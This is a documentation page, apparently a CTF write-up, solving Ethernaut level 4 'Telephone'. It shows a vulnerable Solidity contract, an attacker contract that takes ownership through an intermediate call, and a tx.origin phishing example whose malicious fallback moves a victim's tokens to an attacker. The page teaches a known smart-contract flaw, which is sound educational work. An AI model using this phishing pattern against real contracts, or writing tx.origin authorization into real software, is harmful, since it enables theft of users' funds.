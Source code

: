 ```yaml
---
title: Telephone
weight: 5
type: docs
next: token
prev: coin-flip
---
```


[Level4](https://ethernaut.openzeppelin.com/level/4) - ⭐

---

Claim ownership of the contract below to complete this level.

Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

This is one is pretty straight forward, here is the attacker contract we can deploy:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
  function changeOwner(address _owner) external;
}

contract CoinFlipAttack {

   Telephone telephone;

  constructor(address target) {
    telephone = Telephone(target);
  }

  function attack() public {
    telephone.changeOwner(msg.sender);
  }
}
```

While this example may be simple, confusing `tx.origin` with `msg.sender` can lead to phishing-style attacks, such as [this](https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/).

An example of a possible attack is outlined below.

1. Use `tx.origin` to determine whose tokens to transfer, e.g.

```
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}

```

1. Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.

```
function () payable {
  token.transfer(attackerAddress, 10000);
}

```

1. In this scenario, `tx.origin` will be the victim's address (while `msg.sender` will be the malicious contract's address), resulting in the funds being transferred from the victim to the attacker.
